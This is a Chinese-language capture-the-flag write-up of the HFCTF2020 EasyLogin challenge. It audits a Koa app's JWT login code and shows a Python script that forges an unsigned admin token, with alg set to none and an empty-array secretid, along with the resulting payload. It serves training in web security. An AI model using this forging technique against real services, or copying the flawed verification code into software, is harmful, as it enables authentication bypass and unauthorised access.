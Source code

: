 # \[HFCTF2020]EasyLogin

## \[HFCTF2020]EasyLogin

## 考点

* koa框架代码审计
* JWT特性

## wp

F12在`/static/app.js`中看到提示koa框架，百度一下找到[koa的框架结构](https://www.cnblogs.com/wangjiahui/p/12660093.html)

尝试直接访问app.js可以得到koa项目入口

![](<../.gitbook/assets/image (20) (1) (1).png>)

在`/static/app.js`中可以看到访问的都是api，所以这里的处理逻辑应该都是api，尝试出来代码位置是`/controllers/api.js`，代码放最后。可以看到它有一个获取token的过程

```javascript
const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization
```

在登录处抓包，可以发现登录时都会加上一个`authorization`参数

![](<../.gitbook/assets/image (15) (1).png>)

去[`https://jwt.io/`](https://jwt.io)可以看到解码后的内容

![](<../.gitbook/assets/image (18) (1) (1).png>)

把`alg`改成`none`，JWT中当`alg`为`none`，`secret`为空时，后端将不执行签名验证。

用户名密码改成`admin`，至于`secretid`，它的处理在如下代码，先从jwt里面获取`secretid`，如果`secretid`未定义、或者是空、或者小于0、或者大于等于18(`global.secrets.length`)，就会抛出错误，下一步是到全局列表变量`global.secrets`中获取`secretid`对应的下标，再去jwt验证。

参数比较多，理一下，`secret`是一个长度18的字符串，`secretid`是一个0-18的数字，`secrets`是一个列表。

```javascript
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;
if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
  throw new APIError('login error', 'no such secret id');
 }
const secret = global.secrets[sid];
const user = jwt.verify(token, secret, {algorithm: 'HS256'});
```

如果把`secretid`改成`[]`，让`secretid`为空列表，`secret`也会变成空，这样就绕过了jwt的验证

```python
import jwt
token = jwt.encode(
{
  "secretid": [],
  "username": "admin",
  "password": "admin",
  "iat": 1640163432
},
algorithm="none",key="")

print(token)
```

payload

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6ImFkbWluIiwiaWF0IjoxNjQwMTYzNDMyfQ.
```

![](<../.gitbook/assets/image (16) (1) (1).png>)

controllers/api.js

```javascript
const crypto = require('crypto');
const fs = require('fs')
const jwt = require('jsonwebtoken')

const APIError = require('../rest').APIError;

module.exports = {
    'POST /api/register': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || username === 'admin'){
            throw new APIError('register error', 'wrong username');
        }

        if(global.secrets.length > 100000) {
            global.secrets = [];
        }

        const secret = crypto.randomBytes(18).toString('hex');
        const secretid = global.secrets.length;
        global.secrets.push(secret)

        const token = jwt.sign({secretid, username, password}, secret, {algorithm: 'HS256'});

        ctx.rest({
            token: token
        });

        await next();
    },

    'POST /api/login': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || !password) {
            throw new APIError('login error', 'username or password is necessary');
        }

        const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization;

        const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;

        console.log(sid)

        if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
            throw new APIError('login error', 'no such secret id');
        }

        const secret = global.secrets[sid];

        const user = jwt.verify(token, secret, {algorithm: 'HS256'});

        const status = username === user.username && password === user.password;

        if(status) {
            ctx.session.username = username;
        }

        ctx.rest({
            status
        });

        await next();
    },

    'GET /api/flag': async (ctx, next) => {
        if(ctx.session.username !== 'admin'){
            throw new APIError('permission error', 'permission denied');
        }

        const flag = fs.readFileSync('/flag').toString();
        ctx.rest({
            flag
        });

        await next();
    },

    'GET /api/logout': async (ctx, next) => {
        ctx.session.username = null;
        ctx.rest({
            status: true
        })
        await next();
    }
};
```

## 小结

1. JWT组成
2. JWT中当`alg`为`none`，`secret`为空时，相当于不执行签名验证。
